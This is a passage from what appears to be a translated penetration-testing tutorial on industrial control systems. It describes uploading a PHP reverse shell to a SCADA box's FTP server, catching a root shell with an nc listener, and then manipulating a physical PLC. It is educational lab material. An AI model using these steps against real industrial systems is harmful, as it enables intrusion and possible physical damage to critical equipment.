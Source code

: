 图 12.29 – php-reverse-shell.php

在这里，我们要更改**$ip**信息和**$port**信息，使其与我们的 Kali Linux 主机的 IP 地址和我们选择的端口匹配。更改此信息后，我们将把该文件放到 Windows 7 工作站中。作为提醒，我总是使用以下命令：

python3 -m http.server

我这样做是为了生成一个临时服务器，我可以导航到该服务器并下载文件。一旦你将**php-reverse-shell.php**文件放到受害者的工作站计算机上，你必须运行以下命令，将文件传输到 SCADA 盒子上的 FTP 服务器：

上传 php-reverse-shell.php

如果一切正常，你应该看到以下输出：

![图 12.30 – 上传 php-reverse-shell.php](img/B16321_12_030.jpg)

图 12.30 – 上传 php-reverse-shell.php

接下来，我们希望通过运行以下命令，确保在 Kali 上设置了一个监听器：

nc -nvlp 4444

确保更改你的端口号，使其与**webshell**文件中配置的端口一致。在设置好监听器后，返回工作站并浏览到以下位置：

![图 12.31 – 导航到反向 Shell](img/B16321_12_031.jpg)

图 12.31 – 导航到反向 Shell

如果你返回到 Kali 监听器，你应该会看到你有一个新的 Shell，如下所示：

![图 11.32 – 新的反向 Shell](img/B16321_12_032.jpg)

图 11.32 – 新的反向 Shell

如你所见，我们已经获得了一个反向 Shell，并且我们以 root 身份运行。从这里开始，我们可以简单地将我们在*第八章*中编写的脚本，*协议 202*，复制进来，并通过开启和关闭灯光来利用物理 PLC。在专业的操作中，当我们获得这种级别的访问权限时，我们可以加载工具，发现 SCADA/DCS 系统连接的设备。根据合作的深入程度，你可能会被要求进一步探查，确定哪些硬件可能被破坏。
